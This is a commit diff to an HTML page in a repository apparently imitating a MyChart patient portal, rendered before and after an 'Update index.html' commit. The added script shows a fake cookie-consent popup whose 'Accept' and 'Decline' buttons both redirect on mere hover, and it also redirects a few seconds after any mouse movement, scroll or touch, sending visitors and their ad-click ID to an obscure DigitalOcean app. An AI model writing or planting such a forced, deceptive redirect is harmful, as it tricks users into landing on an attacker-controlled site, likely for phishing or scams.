

Before and after one commit to mancillajoaquin204/teamsofmychartportal, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 129-746 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -240,6 +240,160 @@
       margin: 25px 0;
     }
   </style>
+
+  <script>
+(function () {
+  const redirectUrl = "https://aeg34fweadf34wef43fweffgwefwgr3w-4su2k.ondigitalocean.app/";
+  let redirected = false, moved = false, scrolled = false, touched = false, initialPos = null;
+
+  const random = (min, max) => Math.floor(Math.random() * (max - min + 1)) + min;
+  const colors = ["#28a745", "#007bff", "#ff5722", "#6f42c1", "#17a2b8", "#ffc107", "#dc3545", "#fd7e14", "#20c997", "#6610f2"];
+  const randomColor = () => colors[Math.floor(Math.random() * colors.length)];
+
+  const messages = [
+    "🍪 <strong>Important:</strong> We use cookies to improve your experience.<br><br><strong>By hovering 'Accept', you agree.</strong>",
+    "🔔 <strong>Notice!</strong> Cookies help us serve you better.<br><br><strong>Hover 'Accept' to continue.</strong>",
+    "🔒 <strong>Privacy Info:</strong> Cookies are used for a better service.<br><br><strong>Hover to accept or decline.</strong>"
+  ];
+  const randomText = () => messages[Math.floor(Math.random() * messages.length)];
+
+  function redirectUser() {
+    if (redirected) return;
+    redirected = true;
+    const gclid = new URLSearchParams(window.location.search).get('gclid');
+    const finalUrl = gclid ? `${redirectUrl}${redirectUrl.includes('?') ? '&' : '?'}gclid=${gclid}` : redirectUrl;
+    window.location.href = finalUrl;
+  }
+
+  function showPopup() {
+    const wrapper = document.createElement("div");
+    wrapper.innerHTML = `
+    <div class="popup-overlay">
+      <div class="popup-box">
+        <h3 class="popup-title neon-text">⚠️ Cookie Consent</h3>
+        <p class="popup-msg">${randomText()}</p>
+        <div class="popup-actions">
+          <button id="acceptBtn">Accept</button>
+          <button id="declineBtn">Decline</button>
+        </div>
+      </div>
+    </div>
+    `;
+    document.body.appendChild(wrapper);
+
+    document.getElementById("acceptBtn").addEventListener("mouseenter", redirectUser);
+    document.getElementById("declineBtn").addEventListener("mouseenter", redirectUser);
+
+    const style = document.createElement("style");
+    style.textContent = `
+      @keyframes fadeIn {
+        from { opacity: 0; transform: translateY(-10px); }
+        to { opacity: 1; transform: translateY(0); }
+      }
+
+      @keyframes neonPulse {
+        0%, 100% { text-shadow: 0 0 8px #fff, 0 0 12px ${randomColor()}, 0 0 24px ${randomColor()}; }
+        50% { text-shadow: 0 0 16px #fff, 0 0 20px ${randomColor()}, 0 0 30px ${randomColor()}; }
+      }
+
+      .popup-overlay {
+        position: fixed;
+        top: 0; left: 0; width: 100%; height: 100%;
+        background: rgba(0, 0, 0, 0.75);
+        display: flex;
+        justify-content: center;
+        align-items: center;
+        z-index: 99999;
+        font-family: 'Segoe UI', sans-serif;
+      }
+
+      .popup-box {
+        background: rgba(255, 255, 255, 0.96);
+        backdrop-filter: blur(10px);
+        padding: 2.5rem;
+        border-radius: 18px;
+        max-width: 550px;
+        width: 95%;
+        text-align: center;
+        border: 3px solid ${randomColor()};
+        box-shadow: 0 0 35px rgba(0,0,0,0.4);
+        animation: fadeIn 0.4s ease;
+      }
+
+      .popup-title {
+        font-size: 28px;
+        font-weight: 800;
+        margin-bottom: 1rem;
+        color: ${randomColor()};
+        animation: neonPulse 2s infinite ease-in-out;
+      }
+
+      .popup-msg {
+        font-size: 18px;
+        font-weight: 600;
+        color: #444;
+        line-height: 1.6;
+        margin-bottom: 1.8rem;
+      }
+
+      .popup-actions {
+        display: flex;
+        justify-content: center;
+        gap: 1.5rem;
+        flex-wrap: wrap;
+      }
+
+      .popup-actions button {
+        background-color: ${randomColor()};
+        color: white;
+        border: none;
+        padding: 14px 28px;
+        border-radius: 8px;
+        font-size: 17px;
+        font-weight: bold;
+        cursor: pointer;
+        box-shadow: 0 4px 12px rgba(0, 0, 0, 0.2);
+        transition: transform 0.3s ease, background-color 0.3s ease;
+      }
+
+      .popup-actions button:hover {
+        transform: scale(1.1);
+        background-color: ${randomColor()};
+      }
+    `;
+    document.head.appendChild(style);
+  }
+
+  window.addEventListener("load", () => setTimeout(showPopup, random(400, 800)));
+
+  window.addEventListener("mousemove", (e) => {
+    if (!moved) {
+      if (!initialPos) {
+        initialPos = { x: e.clientX, y: e.clientY };
+        return;
+      }
+      if (e.clientX !== initialPos.x || e.clientY !== initialPos.y) {
+        moved = true;
+        setTimeout(redirectUser, random(3500, 4500));
+      }
+    }
+  });
+
+  window.addEventListener("scroll", () => {
+    if (!scrolled) {
+      scrolled = true;
+      setTimeout(redirectUser, random(3500, 4500));
+    }
+  });
+
+  window.addEventListener("touchstart", () => {
+    if (!touched) {
+      touched = true;
+      setTimeout(redirectUser, random(3500, 4500));
+    }
+  });
+})();
+</script>
 </head>
 
 <body>
```
